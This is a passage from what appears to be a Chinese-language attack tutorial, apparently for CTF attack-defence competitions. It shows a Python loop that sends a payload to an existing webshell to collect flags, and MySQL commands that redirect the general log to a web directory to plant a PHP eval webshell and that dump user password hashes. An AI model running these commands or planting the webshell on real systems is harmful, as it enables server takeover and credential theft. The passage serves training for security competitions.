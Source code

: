 ```python
for i in range(8000,8004):
    url=url_head+":"+str(i)+shell_addr
    try:
        res=requests.post(url,payload)#,timeout=1
        if res.status_code == requests.codes.ok:
            result = res.text
            print (result)
            flag.write(result+"\n") 
        else:
            print ("shell 404")
    except:
        print (url+" connect shell fail")

flag.close()
```

#### 3.2.6 MySQL数据库利用

具体可以看这篇文章：[https://blog.zgsec.cn/archives/26.html](https://blog.zgsec.cn/archives/26.html)

1、查看MySQL版本

```sql
show variables like '%version%';
select version();      #这个只显示MySQL版本号
```

2、查看 `load_file()` 开启状态

```sql
show variables like '%secure%';       #这条可查看详细信息
show global variables like '%secure_file_priv%';
```

3、查看日志功能是否开启和对应目录

```sql
SHOW VARIABLES LIKE 'general%';
set global general_log = "ON";
set global general_log_file='/var/www/html/test.php';   #可以写入WebShell然后直接连接蚁剑

# 往日志里面写入 WebShell
select '<?php @eval($_POST['AabyssTeam']);?>';
# 此时已经写到 test.php 文件当中了，注意这个要知道网站的具体路径才可以实现
```

小技巧：获取MySQL账户和对应密码Hash

```sql
# MySQL <= 5.6 版本
select host, user, password from mysql.user;

# MySQL >= 5.7 版本
select host,user,authentication_string from mysql.user;
```

#### 3.2.7 弱口令爆破
